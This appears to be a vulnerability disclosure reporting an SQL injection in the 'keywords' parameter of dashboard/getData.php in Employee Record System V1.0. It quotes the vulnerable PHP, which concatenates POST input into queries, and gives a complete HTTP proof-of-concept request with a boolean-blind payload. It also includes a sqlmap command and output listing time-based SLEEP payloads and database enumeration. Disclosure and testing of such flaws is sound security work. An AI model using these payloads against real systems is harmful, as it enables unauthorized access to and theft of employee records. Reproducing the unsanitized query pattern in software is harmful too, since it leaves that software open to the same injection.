 # NAME OF AFFECTED PRODUCT(S)

Employee Record System

# VERSION(S)

V1.0

# submitter

Thir0th

# Vulnerable File

dashboard/getData.php

Prerequisite: You need to log in first

# Software Link

https://download.code-projects.org/details/09cc7d20-04c1-42c5-8941-407d139ce7cc

# Vulnerability Type

Sql Injection

# describe

in dashboard/getData.php

~~~
if($action == "currentemployees"){
        $start = !empty($_POST['page'])?$_POST['page']:0;        

        //set conditions for search
        $whereSQL = $orderSQL = '';
        $keywords = $_POST['keywords'];
        $sortBy = $_POST['sortBy'];
        if(!empty($keywords)){
            $whereSQL = "WHERE (`middle_name` LIKE '%".$keywords."%' OR `last_name` LIKE '%".$keywords."%' OR `first_name` LIKE '%".$keywords."%') AND `status` = 'employee'";
        } else {
            $whereSQL = "WHERE status = 'employee'";
        }
        if(!empty($sortBy)){
            $orderSQL = " ORDER BY id ".$sortBy;
        }else{
            $orderSQL = " ORDER BY id ASC ";
        }
~~~

We can control the keyword parameter. The SQL statement has no protective measures, and we can perform Boolean blind injection by constructing a payload.

# POC

~~~
POST /es/dashboard/getData.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 50
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/es/dashboard/
Cookie: PHPSESSID=aaaofpnr75u0conks7f3h9h741
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

page=0&keywords=1;' AND EXTRACTVALUE(1104,CASE WHEN (1104=1104) THEN 1104 ELSE 0x3A END)-- XDQe&sortBy=ASC&action=allemployee
~~~

# Exploit

```
sqlmap -r SQL.TXT --dbs

sqlmap identified the following injection point(s) with a total of 3814 HTTP(s) requests:
---
Parameter: keywords (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: page=0&keywords=1;' AND EXTRACTVALUE(1104,CASE WHEN (1104=1104) THEN 1104 ELSE 0x3A END)-- XDQe&sortBy=ASC&action=allemployee

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=0&keywords=1;' AND (SELECT 7398 FROM (SELECT(SLEEP(5)))rOhN)-- ZNhJ&sortBy=ASC&action=allemployee
---
[10:54:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.5.9, Apache 2.4.39
back-end DBMS: MySQL >= 5.0.12
[10:54:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.11.1'

[*] ending @ 10:54:57 /2025-05-04/
```
